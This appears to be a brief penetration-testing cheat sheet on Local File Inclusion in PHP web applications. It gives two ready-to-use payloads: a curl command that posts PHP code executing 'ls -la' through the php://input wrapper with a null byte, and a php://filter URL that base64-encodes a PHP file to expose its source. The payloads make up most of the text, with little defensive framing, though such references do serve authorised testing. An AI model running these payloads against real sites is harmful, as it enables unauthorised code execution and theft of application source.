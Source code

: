 # Local File Inclusion Cheat Sheet
Testing for local file inclusion, LFI, vulnerabilities is pretty straight forward. If the web language interpreter calls for a file locally but shows it externally, often as input to itself, you should attempt to put another file into the input.
### LFI Using PHP Wrapper
This kind of attack attempt, shown below, puts the command into POST data which is interpreterd by the PHP interpreter via the GET data input `php://input` and uses a NULL byte to stop all PHP interpretation of the current page after the input.

`curl -s --data "<?system('ls -la');?>" "http://target.host/web.php?file_path=php://input%00"`

### LFI Using Wrapper in Browser
This attack will also Base64 encode the output to not have any <?php ?> tags render in the page. This will provide the ability to read actual PHP code.

`http://X.X.X.X/?page=php://filter/convert.base64-encode/resource=(PHP FILE NAME NO EXTENSION)`
